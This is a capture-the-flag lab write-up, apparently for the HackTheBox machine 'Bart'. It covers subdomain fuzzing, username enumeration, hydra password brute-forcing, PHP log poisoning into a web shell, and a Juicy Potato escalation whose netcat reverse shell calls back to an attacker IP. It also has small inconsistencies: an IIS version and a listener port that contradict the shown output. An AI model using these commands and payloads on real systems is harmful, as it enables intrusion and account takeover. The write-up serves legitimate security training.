




# Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Fri Aug 19 17:44:03 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv bart.htb
Nmap scan report for bart.htb (10.129.96.185)
Host is up, received echo-reply ttl 127 (0.057s latency).
Scanned at 2022-08-19 17:44:03 CDT for 26s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 19 17:44:29 2022 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Fri Aug 19 17:44:43 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80 bart.htb
Nmap scan report for bart.htb (10.129.96.185)
Host is up, received echo-reply ttl 127 (0.066s latency).
Scanned at 2022-08-19 17:44:43 CDT for 9s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Did not follow redirect to http://forum.bart.htb/
|_http-favicon: Unknown favicon MD5: 50465238F8A85D0732CBCC8EB04920AA
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 17:44:52 2022 -- 1 IP address (1 host up) scanned in 9.09 seconds
```

We see IIS 1.0 is running on port 80 and that seems to be it for the services. We also see that it looks like nmap caught a redirect to `forum.bart.htb`, so I'll be sure to enumerate for other subdomains, but first we should add this domain to our `/etc/hosts` so that hopefully our redirect to the forum sub-domain will work.


# wfuzz

I first run the following command to get the normal word count from my requests:
`wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "HOST: FUZZ.bart.htb" -u http://bart.htb -t 90`

And find that the normal word count seems to be 0:



I then specify to hide all results with wordcount 0 by adding `--hw 0` which eventually returns valid subdomains of `forum` and `monitor`.

```
Target: http://bart.htb/
Total requests: 19966
==================================================================
ID    Response   Lines      Word         Chars          Request    
==================================================================
00023:  C=200    548 L	    2412 W	  35529 Ch	  "forum - forum"
00099:  C=200     80 L	     221 W	   3423 Ch	  "monitor - monitor"
09532:  C=400      6 L	      26 W	    334 Ch	  "#www - #www"
10581:  C=400      6 L	      26 W	    334 Ch	  "#mail - #mail"

Total time: 0
Processed Requests: 19966
Filtered Requests: 19962
Requests/sec.: 0
```


# Website

## forum.bart.htb and bart.htb/forum

Looking at the page source code for `forum.bart.htb` we find quite a few possible users, including a peculiar section of commented out code for Harvey Potter who appears to be one of the devs. 


```
Samantha Brown
s.brown@bart.local

Daniel Simmons
d.simmons@bart.htb

Robert Hilton
r.hilton@bart.htb

Harvey Potter
h.potter@bart.htb
```

We also find the WordPress version running on the server but unfortunately `wpscan` wasn't helpful since the WordPress installation seems to be modified in an unusal way.


## monitor.bart.htb and bart.htb/monitor

There is a basic web form for authentication.


I try testing some logins with possible usernames and fake passwords in hopes that the application reveals too much info to indicate valid usernames or not.


The error messaging for login attempts doesn't help, but if we try to enumerate possible users the same way using the "Forgot Password?" feature, we actually see that the error lets us know if a username exists or not.


We find that `harvey` and `daniel` are valid users. At this point, brute forcing passwords might be possible since the form doesn't lock us out or ban us. Before using `hydra`, I intercept a login attempt using `Burp` to get the form data.


Normally any csrf token is going to make things difficult for brute forcing but, I try using the same token for `hydra` anyways:

`hydra -l harvey -P /usr/share/wordlists/rockyou.txt monitor.bart.htb -o results.txt http-post-form "/:csrf=d6320a2c5140361e7466716393591867a2db0e51d141881793a7d4ec8c87ceaf&user_name=^USER^&user_password=^PASS^&action=login:The information is incorrect.:H=Cookie: PHPSESSID=ofs4jivi8bublqu5pthc2fkvvp"`

This works and we find `harvey:potter`.


After logging in, I poke around a bit and find another domain of `internal-01.bart.htb`. I add this to my `/etc/hosts` file and check it out...


## internal-01.bart.htb

Another login form! When testing login attempts, we see that this form has an error for any passwords under 8 characters. This form does not have a csrf token and since we know Harvey is one of the devs, I'll go back to `hydra` once again while making sure to specify both possible error messages.




We then find `harvey:Password1` for this subdomain. 


After authenticating we are brought to a chat thing of some sort.


There is a "Log" link towards the top right of the page which doesn't really seem to do anything other than saying "Done." I intercept this request in `Burp` to see what is happening and find that it is requesting `log.txt` . 


We might be able to do some sort of LFI/RFI -> RCE, so I do a directory traversal and find we get a helpful error back but there are permission issues. I'll come back to this later.


Looking at the page source for `simple_chat/login_form.php` we find there is some code doing some stuff, along with a GET to `http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey`


After making some requests, I see that our User-Agent is being logged which means we might be able to poison the log.


After sending `<?php phpinfo() ?>` in the User-Agent to `/log/log.php?filename=log.php&username=harvey` , I then do GET to `/log/log.php?filename=log.txt&username=harvey` and see that this works!


Now that we know we can inject our own PHP, I'll try for a super basic web shell by replacing the User-Agent to `<?php echo system($_GET['cmd']); ?>`. I send this the same way and confirm this works.


With our web shell, I will then use `Powershell.exe` to download and execute `Invoke-PowerShellTcp.ps1` which will be my reverse shell from this repo:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1




We get a shell back as `nt authority\iusr` -- the IIS service account!


We also see that `SeImpersonatePrivilege` is enabled which means Juicy Potato is likely a good candidate to escalate our privileges to SYSTEM.


Before doing that, I wanted to look at the php source code for `log.php` to better understand the log poisoning vulnerability. We see there is a variable `$userAgent` which gets assigned the User-Agent of the person making a request to `log.php`. This value later gets assigned to `$string` which will then be used as a parameter for the `file_put_contents()` function. 


Back to Juicy Potato... In order to get this working, I will download not only Juicy Potato on the box, but also Netcat to be used as part of the privilege escalation process.

JuicyPotato: https://github.com/ohpe/juicy-potato
Netcat64: https://github.com/int0x33/nc.exe/



I will use the following Juicy Potato command to achieve privilege escalation to SYSTEM.

`.\jp.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c c:\users\public\documents\nc64.exe -e cmd.exe 10.10.14.64 9999" -l 1234 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`

Information about the flags that were used can be found from JP documentation, although I will briefly explain:

`-l 1234`: Use arbitrary DCOM port 1234.

`-p "C:\Windows\System32\cmd.exe"`: Tell JP to use `cmd.exe` as the main program for this.

`-a "/c c:\users\public\documents\nc64.exe -e cmd.exe 10.10.14.64 9999"`: This is the command that defines which arguments should be passed to `-p` which in our case is `cmd.exe`. To be specific, we are telling `cmd.exe` to execute `nc64.exe` with elevated privileges and execute our reverse shell which we will catch on a new netcat instance listening on port 7331.

`-t *` try both `createprocess` calls (`<t> CreateProcessWithTokenW, <u> CreateProcessAsUser)`

`-c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the CLSID I found from JP's documentation here (Note: it took a few tries to find a CLSID that worked):


This works and we get a shell back on our as Netcat listener as `nt authority\system`!


We collect our loot and move to the next box. :)

